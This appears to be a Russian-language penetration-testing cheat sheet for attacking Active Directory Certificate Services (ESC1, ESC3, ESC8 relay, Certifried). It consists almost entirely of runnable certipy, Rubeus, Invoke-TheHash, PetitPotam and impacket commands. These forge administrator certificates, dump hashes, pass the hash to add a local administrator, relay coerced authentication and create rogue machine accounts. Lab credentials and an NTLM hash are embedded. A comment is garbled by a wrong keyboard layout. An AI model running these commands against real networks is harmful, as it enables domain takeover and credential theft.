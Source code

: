 
  		certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -debug

		ESC1 - 2. Получаем TGT и хеш администратора на основе сертификата

		.\rubeus asktgt /user:administrator /certificate:administrator.pfx /getcredentials /nowrap

				Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
				cd .\Invoke-TheHash\;Import-Module .\Invoke-TheHash.psm1
				PS C:\Tools> Invoke-TheHash -Type SMBExec -Target localhost -Username Administrator -Hash 2b576acbe6bcfda7294d6bd18041b8fe -Command "net localgroup Administrators grace /add"
				
		certipy-ad auth -pfx administrator.pfx
  		
		certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199

	ESC3 - запрос сертификата на основании другого сертификата

		certipy-ad req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template ESC3 -dc-ip 10.129.56.123
  		
		certipy-ad req -u 'blwasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template 'User' -on-behalf-of 'lab\haris' -pfx blwasp.pfx -dc-ip 10.129.56.123

  		certipy-ad auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.56.123

		export KRB5CCNAME=administrator.ccache
		
		impacket-smbexec -k -no-pass LAB-DC.LAB.LOCAL

		certipy-ad auth -pfx sql.pfx

	ESC8 - Сертификат рилей

		sudo certipy-ad relay -target dc.domain.local -ca domain-DC-CA-1  -template Machine  (DomainController - если атака на dc b jy hfpytcty c ADCS)
		coercer coerce -l 192.168.134.24(listener_host) -t 192.168.134.12 (target) -u s.ivanov -p Venturers2004 -d domain.local -v
  		python3 PetitPotam -u BlWasp -p 'Password123!' -d 'lab.local' 172.16.19.19(наш) 172.16.19.3(атакуемый)
  
  	Certifried (CVE-2022-26923) до мая 2022 года
  
			смотрим [*] Certificate has no object SID???
  
  		certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -dc-ip 10.129.228.237 -template User

			узнаем контроллер домена и центр сертификации
  
		certipy find -u 'BlWasp@lab.local' -p 'Password123!' -stdout -vulnerable

			Вводим в домен новую машинну с днс контроллера домена
  
		certipy account create -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.228.134 -user NEWMACHINE -dns DC02.LAB.LOCAL

			запрашиваем для нее сертиикат
		pcertipy-ad req -u 'NEWMACHINE$' -p 'TwiLzWLT56X0Pd73' -ca domain-DC-CA-1 -template 'Machine' -dc-ip 192.168.134.10 -dns dc.domain.local
